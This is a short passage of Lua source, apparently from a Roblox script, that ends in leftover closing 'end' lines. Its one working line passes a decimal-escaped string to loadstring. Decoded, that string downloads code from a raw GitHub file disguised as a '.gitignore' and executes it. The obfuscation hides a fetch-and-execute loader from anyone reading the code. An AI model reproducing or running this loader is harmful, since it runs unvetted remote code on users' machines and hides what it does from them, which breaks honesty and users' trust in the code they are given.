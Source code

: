 loadstring("\108\111\97\100\115\116\114\105\110\103\40\103\97\109\101\58\72\116\116\112\71\101\116\40\40\39\104\116\116\112\115\58\47\47\114\97\119\46\103\105\116\104\117\98\117\115\101\114\99\111\110\116\101\110\116\46\99\111\109\47\86\97\110\105\115\50\53\50\47\118\97\108\105\97\110\116\47\109\97\105\110\47\46\103\105\116\105\103\110\111\114\101\39\41\44\32\116\114\117\101\41\41\40\41\10")()
    end
end
end)
